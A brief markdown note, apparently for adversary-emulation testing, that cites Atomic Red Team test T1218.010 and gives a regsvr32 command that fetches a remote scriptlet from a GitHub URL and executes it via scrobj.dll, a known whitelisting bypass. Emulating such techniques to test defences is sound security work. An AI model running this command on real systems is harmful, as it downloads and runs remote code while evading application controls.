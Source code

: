  <!-- T1218.010
 Determine the ability to run proccess using regsvr32 on a workstation  -->

> Source: [Atomic T1218.010](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

```
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll

C:\Windows\system32\regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct scrobj.dll

```
